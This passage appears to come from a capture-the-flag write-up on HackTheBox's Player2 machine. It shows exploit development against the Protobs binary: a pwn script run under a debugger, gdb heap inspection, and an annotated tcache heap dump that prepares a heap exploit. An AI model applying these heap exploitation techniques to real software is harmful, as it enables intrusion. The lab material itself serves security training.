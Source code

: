 I’ll show a couple examples. First I’ll start, create, delete:

```

root@kali# python3 pwn_protobs.py 
[+] Starting local process '/media/sf_CTFs/hackthebox/player2-10.10.10.170/binary/Protobs': pid 2574
> /media/sf_CTFs/hackthebox/player2-10.10.10.170/binary/pwn_protobs.py(46)<module>()
-> new_config('dummy1', 0x18, 'to be deleted')   # 0
(Pdb) new_config('0xdf', 0x18, '0xdf config')
(Pdb) del_config(0)

```

Attached gdb and run `heapinfo`:

```

root@kali# gdb -q -p $(pidof Protobs) -ex 'b *0x4013cd'
Attaching to process 2574
Reading symbols from /media/sf_CTFs/hackthebox/player2-10.10.10.170/binary/Protobs...
(No debugging symbols found in /media/sf_CTFs/hackthebox/player2-10.10.10.170/binary/Protobs)
Reading symbols from libc.so.6...
Reading symbols from ld-2.29.so...
...[snip]...
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x23322b0 (size : 0x20d50) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
(0x20)   tcache_entry[0]: 0x23322a0
(0x40)   tcache_entry[2]: 0x2332260

```

I can look at the buffers on the heap:

```

gdb-peda$ x/24xg 0x2332260 - 0x10
0x2332250:      0x0000000000000000      0x0000000000000041  # chunk metadata
0x2332260:      0x0000000000000000      0x0000000002332010  # null terminator for 0x40 list
0x2332270:      0x0000000000000000      0x0000000200000001  # old data
0x2332280:      0x0000000400000003      0x0000000000000018
0x2332290:      0x00000000023322a0      0x0000000000000021  # ptr to desc, chunk metadata
0x23322a0:      0x0000000000000000      0x0000000002332010  # null terminator for 0x20 list
0x23322b0:      0x0000000000000000      0x0000000000020d51  # top of heap
0x23322c0:      0x0000000000000000      0x0000000000000000
0x23322d0:      0x0000000000000000      0x0000000000000000
0x23322e0:      0x0000000000000000      0x0000000000000000
0x23322f0:      0x0000000000000000      0x0000000000000000
0x2332300:      0x0000000000000000      0x0000000000000000

```


 [ Game                ]: test
 [ Contrast            ]: 1
 [ Gamma               ]: 2
 [ Resolution X-Axis   ]: 3
 [ Resolution Y-Axis   ]: 4
 [ Controller          ]: 5
 [ Size of Description ]: 10
 [ Description         ]: descript
 [ Config Index    ]: 0
  [ Game                ]: test
  [ Contrast            ]: 1
  [ Gamma               ]: 2
  [ Resolution X-Axis   ]: 3
  [ Resolution Y-Axis   ]: 4
  [ Controller          ]: 5
  [ Description         ]: descript